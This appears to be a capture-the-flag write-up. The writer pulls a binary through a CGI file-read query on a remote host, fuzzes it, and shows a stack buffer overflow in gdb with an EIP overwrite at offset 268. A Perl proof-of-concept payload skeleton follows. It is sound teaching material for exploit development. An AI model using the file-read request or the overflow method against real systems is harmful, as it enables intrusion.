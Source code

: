 OK, /usr/local/bin/reader seems suspicious. Let's download it!

```
[0x00 ~]$ fetch "http://195.56.122.9:8976/cgi-bin/admin.cgi?/usr/local/bin/\\
    reader" -o reader_
```

We have to strip the first 25 byte (the Opening QUERY_STRING stuff):

```
[0x00 ~]$ dd if=reader_ of=reaeder bs=1 skip=25
```

Running, and manually fuzzing the binary reveals a buffer overlow:

```
root@bt:/media# ./reader `perl -e 'print "A"x1000'`
Success!
Segmentation fault
```

Take a closer look in gdb!

```
root@bt:/media# gdb ./reader
Reading symbols from /media/reader...(no debugging symbols found)...done.
(gdb) r `perl -e 'print "A"x1000'`
Starting program: /media/reader `perl -e 'print "A"x1000'`
Success!

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) x/10x $esp
0xffffd000:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd010:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd020:     0x41414141      0x41414141
(gdb) 
```

Yey, direct EIP overwrite, and our buffer can be found on the stack. Exploiting 101, piece of cake. Except when you are accostumed to the comfort of Olly, and you're fracking tired :D

It quickly turned out that the EIP overwrite begins at offset 268, and the stack pointer points to directly after it. Here is the PoC:

```
#!/usr/bin/perl

my $padding = "A"x268;
my $eip = "BBBB";
my $buf = "\\xcc"x1000;

print $padding . $eip . $buf;
```

And the result when running it:

```
root@bt:/media# gdb ./reader 
Reading symbols from /media/reader...(no debugging symbols found)...done.
(gdb) r `./poc.pl`
Starting program: /media/reader `./poc.pl`
Success!

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/16x $esp-12
0xffffcee4:     0x41414141      0x41414141      0x42424242      0xcccccccc
0xffffcef4:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xffffcf04:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xffffcf14:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
```